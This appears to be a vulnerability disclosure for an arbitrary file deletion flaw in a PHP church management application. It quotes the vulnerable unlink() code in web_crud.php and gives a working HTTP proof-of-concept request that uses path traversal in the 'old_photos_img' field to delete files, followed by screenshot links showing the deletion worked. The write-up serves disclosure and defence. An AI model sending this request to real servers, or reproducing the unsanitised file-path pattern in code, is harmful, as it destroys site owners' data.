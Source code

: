 ### Vulnerability file address

In line 91 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_photos_img']);`,` $_POST['old_photos_img']` parameters have not been restricted, which causes any file to be deleted

```php
if ($_FILES['photos']['tmp_name'] != '') {
            $img1 = generateUniqueFilename($_FILES['photos']);
            $filepath = "../../assets/images/" . $img1;

            if (move_uploaded_file($_FILES["photos"]["tmp_name"], $filepath)) {
                @unlink("../../assets/images/" . $_POST['old_photos_img']);
            }
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 372

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_photos_img"

../../2.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="photos";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `2.txt` file in the `church/` directory

![image-20250504204335132](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042043173.png)

Then we execute the above poc to attack

![image-20250504204402255](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042044284.png)



Files are deleted after the attack is successful

![image-20250504204421248](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042044280.png)